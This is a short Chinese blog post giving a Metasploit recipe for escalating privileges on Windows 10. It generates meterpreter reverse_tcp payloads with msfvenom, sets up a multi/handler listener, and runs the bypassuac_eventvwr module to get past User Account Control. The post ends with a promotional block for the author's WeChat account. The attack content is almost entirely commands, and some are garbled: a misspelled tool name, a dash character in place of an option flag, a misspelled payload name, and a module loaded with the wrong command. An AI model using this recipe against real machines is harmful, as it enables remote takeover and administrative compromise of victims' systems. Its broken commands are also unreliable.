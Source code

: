 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit Win10提权
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Metasploit Win10提权
lock: need
---
```


# Metasploit Win10提权

## 查看目标主机的操作系统

**a) X86操作系统**

```bash
kali# msfvnom –p payload/windows/meterpreter/reverse_tcp 
```

**b) X64操作系统**

```bash
kali# msfvnom –p payload/windows/x64/meterpreter/reverse_tcp
```

## 使用msf建立会话

```bash
msf exploit(handler) > use exploit/multi/handler
msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
```

## 提权

```bash
msf exploit(handler) > search bypassuac //使用bypassuac(绕过用户帐户控制) 
msf exploit(handler) > set payload exploit/windows/local/bypassuac_eventvwr # 在x64使用成功 
msf exploit(handler) > set payload windows/x64/meterprese/reverse_tcp 
msf exploit(handler) > show targets //查看目标，可选项，根据操作系统选择 
msf exploit(handler) > set target 1 #设置目标为x64，0：x86 
msf exploit(handler) > exploit
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)